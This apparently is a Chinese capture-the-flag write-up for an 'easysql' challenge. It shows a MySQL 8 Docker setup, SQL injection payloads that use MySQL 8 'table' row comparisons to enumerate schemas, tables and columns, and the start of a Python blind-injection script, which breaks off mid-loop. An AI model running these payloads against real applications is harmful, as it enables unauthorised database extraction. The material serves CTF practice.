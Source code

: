 



## easysql

mysql8 镜像

```bash
docker run -dit --name mysql8 -e MYSQL_ROOT_PASSWORD=password haakco/mysql80
```

```bash
docker exec -it mysql8 bash -c "mysql -u root -p"
```

密码password

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201207122337.png)



查库 

```sql
(table information_schema.schemata limit 1)>('def','{0}',null,null,null,null)
```



查表

```sql
(table information_schema.tables order by create_time desc limit 1)>('def','diego','{0}',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null)
```



查列

```sql
(table information_schema.COLUMNS limit 3415,1)>('def','diego','users','{0}',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null)
```



`mysql 8.0.21` 可用

```sql
select (table information_schema.TABLESPACES_EXTENSIONS limit 7,1)>('',null)
```

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201208104520.png)

```python
import requests

url = ""

# 0||(table information_schema.tables order by create_time desc limit 1)>('def','diego','{0}',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null) 查表

# (table information_schema.schemata limit 1)>('def','{0}',null,null,null,null) 查库

#(table information_schema.COLUMNS limit 3415,1)>('def','diego','users','{0}',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null) 查列

#0||(table information_schema.TABLESPACES_EXTENSIONS limit 5,1)>('{0}',NULL) 查库 查表
result = ''
flag = ''

for x in range(1,15) :
	max = 127
	min = 32
```
